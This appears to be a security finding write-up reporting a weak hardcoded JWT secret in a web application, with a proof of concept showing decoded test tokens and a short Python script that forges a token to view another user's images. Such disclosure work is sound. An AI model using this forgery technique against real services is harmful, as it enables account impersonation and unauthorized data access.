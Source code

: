 # Description


- **Type:** Broken Authentication / JWT Secret Disclosure  
- **Location:** All JWT-protected endpoints  
- **Severity:**  High  
- **Impact:** Token forgery, role escalation, account impersonation  

The application uses **JSON Web Tokens (JWT)** for authentication and authorization, signed with the `HS256` algorithm.  
During testing, it was discovered that the JWT secret is set to a **weak hardcoded value**: supersecret  

![jwt](../images/jwt.jpg)  

This secret is trivially guessable via brute-force or dictionary attacks using tools like `jwt-cracker`, `jwt_tool`, or `hashcat`.  

By signing arbitrary tokens with the known secret, it is possible to forge valid JWTs and escalate privileges  


## PoC 

For that PoC I created 2 different account with given JWTs:

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzQyLCJsb2dpbiI6Inlob3JtIiwibWFpbCI6IjEyM0AxMjMuY29tIiwicm9sZSI6InVzZXIiLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.  2W9Jjpmbh8XS8QmfJRJX5tAb_LoIiiWFRfkprJXj6W4

When decoded:

```
{
  "id": 342,
  "login": "yhorm",
  "mail": "123@123.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

And second 

> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MzYwLCJsb2dpbiI6IlBPT0MiLCJtYWlsIjoiMzFAMzIyLmNvbSIsInJvbGUiOiJ1c2VyIiwiaXAiOiIxNDYuMTU4LjY2LjIwOSJ9.v0FPpLfWFAqPO7iskaHPckFLmqubk3Gep00xx_C1L-0  

```json
{
  "id": 360,
  "login": "POOC",
  "mail": "31@322.com",
  "role": "user",
  "ip": "146.158.66.209"
}
```

With that tokens we will try to access /images.php?id=13921 (POOC user image) which is not accesible to 'yhorm' user.  
![jwt_poc](../images/jwt_poc.jpg)  

After testing it was clear that we can access others image only by changing **id** value.  
```python
import jwt

secret = "supersecret"

payload = {
    "id": 360, #id for POOC user
    "login": "yhorm",
    "role": "user",
    "mail": "123@123.com",
    "ip": "146.158.66.209"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
New jwt token:  
> eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MzYwLCJsb2dpbiI6Inlob3JtIiwicm9sZSI6InVzZXIiLCJtYWlsIjoiMTIzQDEyMy5jb20iLCJpcCI6IjE0Ni4xNTguNjYuMjA5In0.0ej8hhRWs6vqNhRNQ4w-7G2xTSEqixOzFPauTyIxY6c

![jwttt](../images/jwt_final.jpg)

Successfully got access to other account image only by changing id value. 

